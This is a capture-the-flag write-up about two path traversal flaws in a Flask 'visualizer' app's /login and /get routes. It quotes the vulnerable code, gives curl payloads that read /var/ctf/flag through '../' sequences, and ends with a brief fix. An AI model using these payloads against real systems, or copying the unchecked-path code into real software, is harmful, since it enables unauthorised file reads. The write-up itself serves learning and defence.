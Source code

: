 visualizer Writeup
===========

# Abstract
There were two file inclusion vulnerabilities on `/login` and `/get` pages.

I found `/get` page vulnerability first. So I got a flag from server during the CTF.

And I found `/login` page vulnerability while check visualizer code for writeups.

## File inclusion vulnerability on `/login` page
### Describe
There are file inclusion vulnerability on `/login` page when getting github-ID using `GET` method. Server attempt to find public key and check that it's a valid public key. If public key is not valid, then server print out the content of the file.
### Source code
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if flask.request.method == 'POST':
        # ... omitted ...
        data = file_read(keypath)
        pubkey = gpg.import_keys(data)
        if len(pubkey.fingerprints) == 0:
            return flask.Response('%s is not public key\n%s'%(keypath,data)) # file inclusion vulnerability
```

### Payload
`curl http://visualizer.teamx/login?id=../../../../../../../../../../var/ctf/flag`


## File inclusion vulnerability on `/get` page
### Describe
It's a simple page that print out file-content without any name check. Especially there are no login check(`@login_required`) on `/get` page. So I can read the flag without valid user account.
### Source code
```python
@app.route("/get",methods=['GET'])
def static_page():
  if 'page' in flask.request.args:
    page = flask.request.args.get('page')
    path = 'static/' + page
    if os.path.exists(path) and not os.path.isdir(path):
      return file_read(path) # file inclusion vulnerability
```

### Payload
`curl http://visualizer.teamx/get?page=../../../../../../../../../../var/ctf/flag`

# Summary
Check path traversal string(`../`) when getting file name.
